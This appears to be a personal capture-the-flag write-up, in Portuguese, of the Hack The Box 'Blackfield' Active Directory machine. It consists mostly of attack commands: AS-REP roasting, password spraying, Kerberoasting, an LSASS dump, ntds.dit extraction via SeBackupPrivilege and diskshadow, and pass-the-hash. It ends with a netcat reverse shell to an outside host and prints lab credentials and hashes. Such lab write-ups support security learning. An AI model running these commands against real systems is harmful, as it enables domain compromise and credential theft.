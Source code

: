 Blackfield
========================

![qownnotes-media-mCrkDI](../../media_wordpress/qownnotes-media-mCrkDI.png)

DNS

![qownnotes-media-dgSmXh](../../.gitbook/assets/qownnotes-media-dgSmXh.png)

Kerberos (88)

RPC (135/593)

![qownnotes-media-BPEaBn](../../.gitbook/assets/qownnotes-media-BPEaBn.png)

SMB

![qownnotes-media-NmDyiC](../../.gitbook/assets/qownnotes-media-NmDyiC.png)

    impacket-lookupsid blackfield.local@10.10.10.192

![qownnotes-media-RQJgHM](../../.gitbook/assets/qownnotes-media-RQJgHM.png)

![qownnotes-media-FhwUbl](../../.gitbook/assets/qownnotes-media-FhwUbl.png)

![qownnotes-media-ORXbBb](../../.gitbook/assets/qownnotes-media-ORXbBb.png)

Valid usernames:
```
cat valid_users.txt                             
audit2020
svc_backup
support
lydericlefebvre
```

    impacket-GetNPUsers -request blackfield.local/ -usersfile valid_users.txt -dc-ip 10.10.10.192

![qownnotes-media-qIAMGO](../../.gitbook/assets/qownnotes-media-qIAMGO.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt svc_backup_hash.txt



LDAP (389/3268)

![qownnotes-media-JfBrKY](../../.gitbook/assets/qownnotes-media-JfBrKY.png)


## Exploitation

Creds:

support:#00^BlackKnight

### Password spray

    crackmapexec smb 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

    crackmapexec winrm 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

![qownnotes-media-ZSgQkd](../../.gitbook/assets/qownnotes-media-ZSgQkd.png)

    kerbrute passwordspray -d blackfield.local --dc dc01.blackfield.local valid_users.txt '#00^BlackKnight'

### Shares Enumeration Authenticated

    crackmapexec smb 10.10.10.192 -u support -p passwords.txt --shares

![qownnotes-media-GpUPaM](../../.gitbook/assets/qownnotes-media-GpUPaM.png)

    enum4linux -u support -p '#00^BlackKnight' -a -A 10.10.10.192

Obtive outros usuários

### SPNs Kerberoasting

    impacket-GetUserSPNs -request blackfield.local/support:#00^BlackKnight -dc-ip 10.10.10.192

### Domain Enumeration with bloodhound

Aqui temos algumas coisas interessantes para olhar. Vamos considerar o seguinte:

GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group

Isso pode ser visto nesta sessão do bloodhound:

![qownnotes-media-VpIkpQ](../../.gitbook/assets/qownnotes-media-VpIkpQ.png)

Caso contrário, podemos considerar algumas opções ainda no bloodhound, tais como:

Setar todos os demais usuários como "High Value" e verificar no filtro como fazer para encontrá-lo nas análises e filtros do bloodhound, conforme eu já faço.

Aqui eu notei que o ataque pode ocorrer devido a uma permissão vista conforme o print que tirei acima:

![qownnotes-media-DbfaCf](../../.gitbook/assets/qownnotes-media-DbfaCf.png)

ou 

![qownnotes-media-hjpSiZ](../../.gitbook/assets/qownnotes-media-hjpSiZ.png)

![qownnotes-media-Bytuhu](../../.gitbook/assets/qownnotes-media-Bytuhu.png)


### rpcclient

    rpcclient -U blackfield.local/support 10.10.10.192
    setuserinfo2 audit2020 23 P@ssword!

Agora a gente faz uma nova enumeração de shares e encontramos informações que nos ajudaram a entrar como o svc_backup na máquina:

![qownnotes-media-FvwmuB](../../.gitbook/assets/qownnotes-media-FvwmuB.png)

![qownnotes-media-SSgLdY](../../.gitbook/assets/qownnotes-media-SSgLdY.png)

Baixei esses arquivos, mas o que fez realmente a diferença foi o de memória, onde peguei o LSASS da máquina e fiz o dump da memória com pypykatz:

    pypykatz lsa minidump lsass.DMP

![qownnotes-media-FKKKEa](../../.gitbook/assets/qownnotes-media-FKKKEa.png)

    evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

## PrivEsc

Aqui um aprendizado novo!!!

![qownnotes-media-wuUvdy](../../.gitbook/assets/qownnotes-media-wuUvdy.png)

com a permissão de SeBackupPrivilege dá pra conseguir fazer a cópia dos arquivos mais sensíveis do sistema, tais como o system e a sam, a considerar uma máquina fora do domínio podemos prosseguir com os seguintes comandos:

    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system

Mas para o caso do Domain Controller, temos de considerar os seguintes comandos:

Criar um arquivo, cujo extensão tem de ser  ".dsh"

    cat test.dsh
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

    unix2dos test.dsh

Subir para a máquina alvo e executar os seguintes comandos:

    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    reg save hklm\system c:\Temp\system
Se atentar somente ao diretório direitinho no qual se está operando:
Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

    impacket-secretsdump -ntds ntds.dit -system system local

![qownnotes-media-CfcHGG](../../.gitbook/assets/qownnotes-media-CfcHGG.png)

    impacket-psexec administrator@10.10.10.192 -hashes :184fb5e5178480be64824d4cd53b99ee

    evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Subi o psexec para a máquina e o netcat e fiz a shell para system dessa forma:

    .\pe.exe -accepteula -i -s -d c:\temp\n.exe -e powershell 10.10.14.14 8082
 
![qownnotes-media-bFWfpH](../../.gitbook/assets/qownnotes-media-bFWfpH.png)